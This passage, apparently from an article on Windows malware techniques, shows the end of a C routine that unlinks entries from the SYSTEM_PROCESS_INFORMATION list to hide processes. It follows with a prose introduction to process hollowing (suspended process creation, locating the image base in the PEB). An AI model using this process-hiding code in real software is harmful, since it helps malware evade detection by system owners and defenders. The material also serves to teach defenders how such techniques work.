 ```
}

// ... otherwise, fix the previous record to point to the next one from the current

else {

if (cur->NextEntryOffset) prev->NextEntryOffset += cur->NextEntryOffset;

else 

// ... unless there's no any

prev->NextEntryOffset = 0;

}

}

// otherwise, save the pointer to current record...

else prev = cur;

// ... and move to the next record, if exists

if (cur->NextEntryOffset) cur = (SYSTEM_PROCESS_INFORMATION *) ((LPBYTE) cur + cur->NextEntryOffset);

else break; // if not, exit the loop

}

}

return status;

}
```

Also, Hollowing is a sophisticated technique that attackers use to manipulate the memory sections of a process. This method has been around for a while, with its roots tracing back to at least 2011. It’s a testament to its effectiveness, given its longevity in the ever-evolving landscape of cybersecurity.

### **How Hollowing Works?**

Process Creation: The attacker initiates a process in a suspended state. This means the process is loaded into memory but hasn’t started executing yet.

Locating Base Address: The attacker then locates the base address of the process’s image in the Process Environment Block (PEB). The PEB is a data structure in the Windows operating system that contains information about a process.
